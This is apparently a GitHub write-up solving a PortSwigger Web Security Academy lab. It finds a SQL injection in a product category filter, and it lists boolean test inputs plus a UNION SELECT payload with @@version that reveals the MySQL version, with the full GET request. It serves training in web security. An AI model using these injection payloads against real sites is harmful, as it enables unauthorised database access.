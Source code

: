 
# 4 - SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------

Generated link: https://0aab0018030112cfc1c781f9007c009c.web-security-academy.net/

Filtering using GET parameter “category”: "/filter?category=Accesories"

/filter?category=Accesories -> Return 4 items

/filter?category=Accessories';# -> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1  -> Return 4 items

/filter?category=Accessories'+and+'1'='0  -> Return 0 items

/filter?category=Accessories'+union+select+0,@@version;# -> Print version

```
GET /filter?category=Accessories'+union+select+0,@@version;# HTTP/2
``` 

![img](images/4%20-%20SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/1.png)